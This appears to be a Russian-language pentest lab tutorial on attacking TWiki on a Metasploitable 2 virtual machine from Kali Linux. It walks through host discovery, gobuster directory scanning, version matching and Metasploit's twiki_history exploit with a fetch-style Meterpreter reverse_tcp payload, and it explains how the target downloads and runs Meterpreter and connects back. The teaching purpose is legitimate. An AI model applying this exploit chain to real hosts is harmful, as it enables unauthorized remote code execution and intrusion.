







Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Сначала необходимо обновить metasploit, так как необходимый payload не стабильно работает на текущей версии. Что бы обновить metasploit в терминале Kali Linux необходимо дать команду:
sudo apt update sudo apt install metasploit-framework
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
Далее, в Kali открываем браузер, в адресной строке вводим IP 10.0.2.3. Как видим открылась веб- страница (скриншот ниже):

На 80-м порту работает веб-сервер. Это можно увидеть так же если в терминале дать команду nmap, вывод nmap будет приблизительно такой:
PORT STATE SERVICE 80/tcp open http
То есть последовательность такая:
Nmap
80/tcp open http
→ узнаем, что работает веб-сервер.
Браузер
http://10.0.2.3
→ смотрим, какое именно веб-приложение там запущено.
Но здесь мы пропустили шаг с nmap - после обнаружения удаленной машины netdiscover сразу запустили веб- браузер и в адресной строке браузера ввели IP удаленной машины и зашли на веб- страницу.
После открытия страницы и перехода по ссылке TWiki в браузере мы видим, что сайт работает на TWiki.
TWiki — это wiki-движок (что-то похожее на MediaWiki, на котором работает Википедия), только предназначенный в основном для внутренней документации компаний. Пользователи могут создавать и редактировать страницы через браузер.
На главной странице в браузере выбираем ссылку TWiki и браузер переходит в каталог:
http://10.0.2.3/twiki/
В случае Metasploitable 2 это выглядит следующим образом.
Мы открываем в браузере:
http://10.0.2.3/
Это главная страница веб-сервера Metasploitable 2, а не TWiki.
На этом же веб-сервере находятся несколько веб-приложений, каждое в своем каталоге:
http://10.0.2.3/twiki/
http://10.0.2.3/dav/
http://10.0.2.3/phpMyAdmin/
...
Когда мы переходим по адресу:
http://10.0.2.3/twiki/
мы попадаем уже в TWiki.
Важно понимать, что не обязательно заходить в TWiki через главную страницу. Если мы уже знаем адрес /twiki/ (например, его нашел Gobuster), можно сразу открыть:
http://10.0.2.3/twiki/
Главная страница может:
содержать ссылку на TWiki;
не содержать такой ссылки вообще.
Есть другой способ обнаружить TWiki если ссылки на главной странице нет. Для этого используем gobuster, в терминале Kali дать команду обнаружения каталогов:
gobuster dir -u http://10.0.2.3 -w /usr/share/wordlists/dirb/common.txt
Программа gobuster из словаря берет слова (имена каталогов) и проверяет- есть каталог с таким именем на 10.0.2.3 или нет. Вывод gobuster показан ниже на скриншоте:

Из вывода программы видим gobuster нашел путь на сервере:
http://10.0.2.3/twiki/
Таким образом мы еще одним способом обнаружили папку twiki на сервере при помощи gobuster.
Теперь давайте проверим архитектуру Metasploitable 2 (логин/пароль msfadmin/msfadmin):
uname -m
Вывод команды:
i686
что значит 32 битная архитектура x86.

Далее в Kali Linux запускаем метасплоит, даем команду в терминале:
msfconsole
После запуска msfconsole внутри метасплоит даем команду поиска twiki:
msf > search twiki

Нас интересует модуль:
2 exploit/unix/webapp/twiki_history
Поэтому даем команду выбора этого модуля в метасплоит:
msf > use 2
После этой команды метасплоит автоматически выбрал такой payload:
cmd/linux/http/x64/meterpreter/reverse_tcp
Нам нужен payload для 32 битной архитектуры, так как выше мы определили архитектуру ОС Metasploitable x86.
Metasploitable 2 почти всегда является 32-битной системой, поэтому 64-битный бинарник на ней просто не запускается. В этом случае check проходит успешно, а сессия не появляется.
Посмотреть какие payload доступны можно командой:
msf > show payloads
Даем команду выбора payload:
set PAYLOAD cmd/linux/http/x86/meterpreter_reverse_tcp
Или еще можно использовать аналогичный payload (будет работать так же):
set PAYLOAD cmd/linux/http/x86/meterpreter/reverse_tcp
cmd/linux/http/x86/meterpreter_reverse_tcp является универсальным payload'ом для 32-битных Linux, эксплойт позволяет выполнить команду и целевая система может скачать файл по HTTP. Именно поэтому его так часто используют в учебных лабораториях вроде Metasploitable 2.
То есть подключаемся к удаленной машине, она может выполнить одну команду, даем команду загрузить с нашей машины код на удаленную машину, код загружается и устанавливает соединение meterpreter.
Уточним последовательность.
1)Эксплойт использует уязвимость (FTP, TWiki, Samba и т.д.), чтобы получить возможность выполнить команду на удаленной машине.
2)Metasploit понимает, что у него есть возможность выполнить одну команду, и формирует команду для выбранного payload.
3)Для payload
cmd/linux/http/x86/meterpreter_reverse_tcp
эта команда примерно означает:
«Скачай с моей машины (Kali) исполняемый файл по HTTP и запусти его.»
Например, она может использовать wget или curl (точная команда зависит от настроек и наличия утилит на целевой машине).
4)На Kali Metasploit автоматически поднимает небольшой HTTP-сервер (обычно на порту 8080), с которого жертва скачивает (wget, curl) этот файл.
5)Скачанный файл — это готовый исполняемый модуль Meterpreter.
6)После запуска этот файл сам инициирует обратное TCP-соединение на: LHOST:LPORT
7)Metasploit принимает это соединение и открывает нам сессию:
meterpreter >
Именно поэтому этот payload настолько популярен: если эксплойт позволяет выполнить хотя бы одну команду на Linux, этого уже достаточно, чтобы загрузить и запустить Meterpreter. Эксплойт нужен только для получения возможности выполнить команду, а всю дальнейшую работу по установке удобной интерактивной сессии берет на себя payload.
Для информации после того как мы выбрали модуль командой use 2, после этого мы можем еще раз вернуться в верхнее меню выбора модуля командой:
back

Устанавливаем опции remote host:
set RHOSTS 10.0.2.3
И далее даем команду для проверки возможности взлома:
check
Или без проверки можно сразу дать команду:
exploit
Как видим из скриншота ниже meterpreter установил сеанс связи с удаленной машиной.

Что можно сделать дальше (в рамках учебной лаборатории)
Посмотреть информацию о системе:
sysinfo
Узнать, под каким пользователем выполняется процесс:
getuid
Посмотреть сетевые интерфейсы:
ifconfig
Узнать текущий рабочий каталог:
pwd
Просмотреть содержимое каталога:
ls
Получить обычную оболочку Linux:
shell
Затем после получения оболочки Linux можно проверить:
whoami
uname -a
Если нужно завершить shell Linux, сессию Meterpreter, или выйти из метасплоит выполнить:
exit
или
quit
Теперь рассмотрим такой вопрос, почему в метасплоит мы дали команду use 2 и таким образом выбрали модуль:
exploit/unix/webapp/twiki_history
Для начала изучения этого вопроса, узнаем какой версии TWiki на Metasploitable 2. Для этого перейдем по уже знакомому для нас адресу:
http://10.0.2.3/twiki/
На данной странице нажмем ссылку:
readme.txt
Таким образом откроется страница на Metasploitable 2:
http://10.0.2.3/twiki/readme.txt
В самом верху страницы (начало текста страницы) видим такое:
TWiki (TM) - A Web Based Collaboration Platform =============================================== TWiki Distribution ------------------ Version: 01 Feb 2003 Release type: Production release What is TWiki? -------------- TWiki is a flexible and powerful web-based collaboration platform that allows you to run a dynamic intranet site, a
Заметим, что указана версия TWiki:
Version: 01 Feb 2003
Теперь вернемся в msfconsole и дадим команду получить информацию о модуле:
info exploit/unix/webapp/twiki_history
После вывода команды, прокручиваем экран вниз, в конце документа видим строки:
Affected versions: - 20040902 - 20040901 - 20030201 - 20011201 - 20001201

В списке Affected versions (уязвимые версии) видим строку 20030201 что значит 2003 год, февраль месяц 2, число 1 - это совпадает с версией TWiki.
Разработчики TWiki использовали в качестве номера версии дату выпуска, а не привычные номера вроде 1.2 или 5.0.
Например:
Номер версии Дата 20001201 1 декабря 2000 20011201 1 декабря 2001 20030201 1 февраля 2003 20040901 1 сентября 2004 20040902 2 сентября 2004
То есть:
20030201
означает:
2003 — год;
02 — февраль;
01 — первое число месяца.
То есть
Version: 01 Feb 2003
эквивалентно
Version: 20030201
Допустим, мы открыли страницу "About TWiki" или readme.txt и увидели:
Version: 01 Feb 2003
Смотрим описание эксплойта:
Affected versions:
- 20030201
Совпадает.
Значит, этот эксплойт потенциально подходит.
Почему именно twiki_history?
Для Metasploitable 2 этот модуль считается одним из самых надежных (excellent) и практически всегда успешно работает с установленной там версией TWiki. Это не означает, что остальные обязательно не работают. Можно самостоятельно проверить несколько модулей и выбрал тот, который дал стабильный результат.
В реальном пентесте так и делают: сначала определяют версию приложения и анализируют возможные уязвимости, а затем проверяют один или несколько наиболее подходящих эксплойтов, пока не найдут тот, который действительно работает.
Какая разница между:
set PAYLOAD cmd/linux/http/x86/meterpreter_reverse_tcp
set PAYLOAD cmd/linux/http/x86/meterpreter/reverse_tcp
Разница есть, и она важная.
Мы сравниваем два разных payload'а:
cmd/linux/http/x86/meterpreter_reverse_tcp
и
cmd/linux/http/x86/meterpreter/reverse_tcp
На первый взгляд отличаются только символом /, но внутри Metasploit это разные семейства payload'ов.
cmd/linux/http/x86/meterpreter_reverse_tcp
Это современный payload (Fetch Payload).
Он:
выполняет одну команду на удаленной машине;
скачивает Meterpreter по HTTP;
запускает его;
устанавливает обратное соединение.
Именно его сейчас рекомендует Metasploit для Linux.
cmd/linux/http/x86/meterpreter/reverse_tcp
Это старый (staged) payload.
Раньше Meterpreter строился по схеме:
stager — маленькая первая часть;
stage — основная часть Meterpreter.
Сначала запускался небольшой загрузчик, а затем через сеть догружался остальной Meterpreter.
Почему сейчас чаще используют первый?
Потому что новый payload:
cmd/linux/http/x86/meterpreter_reverse_tcp
работает надежнее:
не зависит от механизма stage/stager;
проще проходит через современные средства защиты;
является рекомендуемым вариантом в новых версиях Metasploit.
То есть главное различие:
старый payload → скачивается (или выполняется) stager, который затем догружает stage - то есть сам meterpreter;
новый Fetch Payload → сразу скачивается готовый исполняемый файл Meterpreter, который после запуска сам устанавливает соединение. Никакого отдельного stage уже нет.
В старом staged payload происходит так:
Эксплойт
↓
На удаленной машине запускается маленький stager
↓
Stager подключается к Kali
↓
Kali передает основной Meterpreter (stage)
↓
Stage загружается в память
↓
Получаем meterpreter >
То есть:
stager — это маленькая программа (или небольшой кусок кода), задача которой — только установить соединение с Metasploit и запросить следующую часть. stage — это и есть основной Meterpreter, содержащий его функциональность (команды sysinfo, shell, upload, download и т.д.).
Поэтому можно сказать:
stage — это основной код Meterpreter.
Именно поэтому такой payload называется staged — он загружается поэтапно (stage за stage).
В новом Fetch Payload (cmd/linux/http/x86/meterpreter_reverse_tcp) всё проще:
Эксплойт
↓
на удаленной машине wget/curl скачивает готовый файл Meterpreter
↓
Файл запускается
↓
Он сразу подключается к Kali
То есть весь Meterpreter уже находится в скачанном исполняемом файле. Отдельно догружать stage уже не нужно.